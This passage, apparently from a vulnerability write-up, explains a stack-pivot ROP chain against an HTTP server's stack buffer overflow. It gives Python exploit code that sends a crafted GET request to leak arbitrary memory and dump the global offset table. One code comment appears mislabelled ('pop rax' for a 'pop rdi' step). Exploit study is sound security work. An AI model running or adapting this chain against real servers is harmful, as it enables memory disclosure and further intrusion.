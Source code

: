 The `pop rsp` gadget is necessary because we can only write up to 32 bytes beyond the end of the
stack buffer. Considering that the return address is located at a 16-byte offset from the end of the
buffer, we only have enough room to execute a single gadget before we need to pivot the stack.
Therefore, the first gadget in any ROP chain we construct should be a pivot to the beginning of the
stack buffer we just overflowed. The first 24 bytes of our HTTP GET request will be popped into
registers `r13`, `r14`, and `r15`, so we just need to place our ROP chain (after the pivot) at
offset 24 from the beginning of our request.

Below is the ROP chain I constructed to leak an arbitrary amount of data from any memory address.

```py
def leak(addr, size):
    payload  = b'GET ///\x00'           # pop r13
    payload += p64(0xaaaaaaaaaaaaaaaa)  # pop r14
    payload += p64(0xbbbbbbbbbbbbbbbb)  # pop r15

    # write(4, addr, size)
    payload += p64(pop_rdi_gadget)      # ret
    payload += p64(4)                   # pop rdi
    payload += p64(pop_rsi_gadget)      # ret
    payload += p64(addr)                # pop rsi
    payload += p64(0xcccccccccccccccc)  # pop r15
    payload += p64(pop_rdx_gadget)      # ret
    payload += p64(size)                # pop rdx
    payload += p64(write_plt_addr)      # ret

    # exit(0)
    payload += p64(pop_rdi_gadget)      # ret
    payload += p64(0)                   # pop rax
    payload += p64(exit_plt_addr)       # ret

    payload += b'A' * (1032 - len(payload))

    payload += p64(chk)
    payload += p64(rbp)

    payload += p64(pop_rsp_gadget)      # ret       <- execution starts here
    payload += p64(buf_base)            # pop rsp

    with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
        s.connect((host, port))
        s.sendall(payload)
        res = s.recv(size)

    return res

# Dump the global offset table.
got_leak = leak(got_base, got_size)

print('GOT:')
hexdump(got_leak)
print()
```
